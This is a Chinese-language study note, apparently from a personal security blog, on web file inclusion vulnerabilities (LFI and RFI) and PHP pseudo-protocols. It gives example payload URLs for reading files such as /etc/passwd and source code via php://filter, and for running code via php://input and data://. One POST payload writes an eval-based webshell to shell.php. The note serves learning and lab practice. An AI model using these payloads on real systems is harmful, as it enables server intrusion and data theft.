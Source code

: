 ```yaml
---
{"dg-publish":true,"dg-path":"xiaodi/WEB攻防_文件包含.md","permalink":"/xiaodi/WEB攻防_文件包含/","title":"WEB攻防_文件包含"}
---
```


# 原理
程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，
直接调用此文件，而无须再次编写，这种调用文件的过程一般被称为文件包含。
在包含文件的过程中，如果文件能进行控制，则存储文件包含漏洞

# 分类
## 本地文件包含漏洞 (LFI)

LFI 漏洞发生在应用程序允许用户通过输入文件路径包含服务器本地的文件时。攻击者可以利用这个漏洞读取服务器上的敏感文件，如配置文件、密码文件等，甚至可能执行恶意代码。常见的攻击路径包括：

1. **读取系统文件**：例如 `/etc/passwd` 文件包含系统用户信息。
2. **读取应用配置文件**：例如 `config.php` 包含数据库配置和密码。
3. **读取日志文件**：可以通过包含 Web 服务器的日志文件，找到其他可利用的漏洞。
4. **配合文件上传**：如果可以上传文件，则可以考虑上传恶意代码来包含


## 远程文件包含漏洞 (RFI)

RFI 漏洞发生在应用程序允许用户通过输入文件路径包含远程服务器上的文件时。攻击者可以利用这个漏洞将远程服务器上的恶意代码包含到目标服务器的执行环境中，从而远程控制目标服务器。RFI 攻击通常包括：

1. **包含远程恶意脚本**：攻击者可以将恶意脚本上传到他们的服务器，并通过包含这个远程脚本执行恶意代码。
2. **植入后门**：攻击者可以通过包含后门脚本，获得对目标服务器的持续访问。



# 伪协议

PHP伪协议是一种在PHP中提供的特殊协议，可以用于处理不同类型的数据流、文件和资源。它们允许开发人员通过一种统一的方式访问和操作这些资源。

详细参考：
https://segmentfault.com/a/1190000018991087
## 常用伪协议

### `file://[文件的绝对路径和文件名]`

用于访问本地文件系统。可以读取或写入本地文件。

如：`http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt`


###  `php://`

**1. `php://filter`**

作用：

读取源代码并进行base64编码输出

示例：

 `http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）`

参数：

 resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流  
 read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
 write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
 <；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

**2. `php://input`**

作用：

 执行POST数据中的php代码

示例：
 `http://127.0.0.1/cmd.php?cmd=php://input`

 POST数据：`<?php phpinfo()?>`

注意：

 `enctype="multipart/form-data"` 的时候 `php://input` 是无效的


###  `data://`

作用：

 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到`base64编码`传输

示例：

 `http://127.0.0.1/include.php?`
 
 `file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`


## 常用伪协议语句
**文件读取：**
`file:///etc/passwd`
`php://filter/read=convert.base64-encode/resource=phpinfo.php`

**文件写入：**
`php://filter/write=convert.base64-encode/resource=phpinfo.php`
`php://input POST:<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>`


**代码执行：**
`php://input POST:<?php phpinfo();?>`
`data://text/plain,<?php phpinfo();?>`
`data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`



![Pasted image 20240807172651.png](/img/user/picture/Pasted%20image%2020240807172651.png)



[[blog/安全/靶场/CTFshow_文件包含\|CTFshow_文件包含]]